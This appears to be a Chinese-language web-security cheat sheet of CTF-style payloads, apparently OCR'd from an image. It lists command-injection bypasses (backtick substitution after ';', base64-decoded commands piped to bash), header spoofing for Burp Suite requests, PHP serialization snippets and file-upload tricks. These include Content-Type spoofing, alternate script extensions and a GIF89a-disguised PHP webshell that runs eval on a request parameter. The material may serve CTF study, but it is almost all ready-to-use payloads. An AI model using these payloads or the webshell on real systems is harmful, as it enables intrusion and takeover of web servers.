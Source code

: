 **内联绕过**

内联，就是将反引号内命令的输出作为输入执行。

?ip=127.0.0.1;cat `ls`

**base64绕过**

echo bHM= |base64 -d|bash
echo bHM= |base64 -d|sh


## burpsuite-请求头

Referer: https://www.Sycsecret.com
User-Agent: Syclover
X-Forwarded-For: 127.0.0.1


## 序列化与反序列化

```php
<?php
class Name{
    private $username = 'admin';
    private $password = '100';
}
$a = new Name();
echo urlencode(serialize($a)); 
?>
```

## 上传常用木马
1. 序列化木马:
```php
<?php
class A{
	var $a = "<?php phpinfo()?>";
}
$aa = new A();
echo serialize($aa);
?>
```
1. Content-Type: image/jpeg
2. php,php3,php4,php5,phtml.pht
3. 扩展名绕过
Asp:asa cer cdx
Aspx:ashx asmx ascx
Php:php3 phptml
Jsp:jspx jspf
4. 
    ```
    <script language=php>system("ls")</script>
    ```
5. 
    ```
    GIF89a?
    <script language="php">eval($_REQUEST[shell])</script>
    ```
